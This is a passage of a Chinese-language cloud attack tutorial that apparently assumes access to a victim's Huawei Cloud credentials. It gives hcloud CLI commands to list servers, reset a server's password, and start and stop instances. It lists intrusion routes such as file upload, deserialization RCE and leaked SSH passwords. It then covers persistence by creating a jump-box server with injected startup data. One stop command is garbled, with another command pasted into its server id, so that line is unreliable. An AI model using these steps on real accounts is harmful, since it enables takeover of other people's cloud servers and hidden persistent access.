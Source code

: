 `hcloud ECS ListServersDetails --cli-region="cn-south-1"  #切换区域ID查询服务器`

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-11/1649650004-49112-image.png)
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-04-11/1649650015-564984-image.png)
需要用到id（命令里的server_id）和tenant_id（命令里的project_id）
修改密码
`#企业版
hcloud ECS ResetServerPassword --cli-region="cn-south-1" --project_id="0a8453d1f12b8531" --server_id="1fb786129411ab1c" --reset-password.is_check_password=true --reset-password.new_password="1234qwer"`

`#个人版
hcloud ECS BatchResetServersPassword --cli-region="cn-south-1" --project_id="0a8453d112b8531" --servers.1.id="1fb786d9-a294-11c" --new_password="1234qwer"`

启动服务器

`hcloud ECS BatchStartServers --cli-region="cn-south-1" --project_id="0a8453d1f7121283b8531" --os-start.servers.1.id="1fb786d9-5121ab1c"`

关闭服务器

`hcloud ECS BatchStopServers --cli-region="cn-south-1" --project_id="0a8453d112c00e683b8531" --os-stop.servers.1.id="hcloud ECS BatchStartServers" --cli-region="cn-south-1" --project_id="0a8453d1f121200e683b8531" --os-start.servers.1.id="1fb7121-4958-a294-41224e1ab1c""`

华为云购买服务器时默认的账号为root权限，如果用户未做权限限制，拿到shell就不用提权了
### 3、利用后门文件
任意文件上传，文件包含，解析漏洞等
### 4、利用远程代码执行漏洞 
fastjson反序列化，shiro反序列化等等
### 5、SSH账号密码泄漏等

## 0x03、权限维持
此处就只演示使用华为云cli如何操作，控制台如何操作就没必要演示了
### 1、新增服务器
新建一台指定网段的服务器来作为跳板机

`hcloud ECS CreatePostPaidServers --cli-region="cn-south-1" --project_id="0a8453d1f700250e2f02c00e683b8531" --server.data_volumes.1.volumetype="SSD" --server.data_volumes.1.size=40 --server.vpcid="123456" --server.name="huoxian" --server.nics.1.subnet_id="12345" --server.root_volume.volumetype="SSD" --server.root_volume.size=40 --server.flavorRef="12" --server.imageRef="123" --server.user_data="#! /bin/bash echo user_test >> /home/user.txt"`

这里解释下里面参数的意义和如何拿到这个参数，带*的参数是需要其他命令获取的

`--cli-region  #地区
--project_id #用户ID，前面有介绍
 --server.data_volumes.1.volumetype #云服务器数据盘对应的磁盘类型,需要与系统所提供的磁盘类型相匹配
--server.data_volumes.1.size=40 #磁盘大小
--server.vpcid="123" #vpc的ID*
--server.name #云服务器名称
--server.nics.1.subnet_id #待创建云服务器所在的子网信息*
--server.root_volume.volumetype #云服务器系统盘对应的磁盘类型,需要与系统所提供的磁盘类型相匹配
 --server.root_volume.size=40 #磁盘大小
--server.flavorRef #待创建云服务器的系统规格的ID*
--server.imageRef #待创建云服务器的系统镜像*
--server.user_data #创建云服务器过程中待注入用户数据`
